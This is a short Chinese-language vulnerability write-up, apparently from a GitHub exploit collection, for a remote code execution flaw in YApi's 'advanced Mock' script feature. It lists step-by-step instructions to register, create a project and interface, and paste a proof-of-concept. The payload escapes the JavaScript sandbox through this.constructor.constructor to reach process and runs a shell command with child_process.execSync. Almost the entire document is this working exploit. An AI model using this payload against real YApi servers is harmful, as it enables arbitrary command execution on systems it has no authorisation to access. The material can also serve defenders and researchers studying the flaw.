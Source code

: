 1. 在首页下方找到登录/注册功能接口，或直接访问 /login 路径进行登录和注册。
2. 登录之后进入个人空间，在右侧点击添加项目；
3. 添加成功后进入项目，点击右侧同一位置有个“添加接口”
4. 添加完之后，打开接口，进入“高级Mock”功能，点击脚本，输入Poc，点击保存即可。
5. 点击“预览”，访问Mock地址，即可触发漏洞POC。

![图片](resource/Yapi_Mock_RCE.assets/640-20230217124803366.png)

POC如下：

```
const process = this.constructor.constructor(&#39;return process&#39;)()mockJson = process.mainModule.require(&#34;child_process&#34;).execSync(&#34;whoami&#34;).toString()
```

点击“预览”，访问Mock地址，即可触发漏洞POC：

![图片](resource/Yapi_Mock_RCE.assets/640-20230217124803369.png)
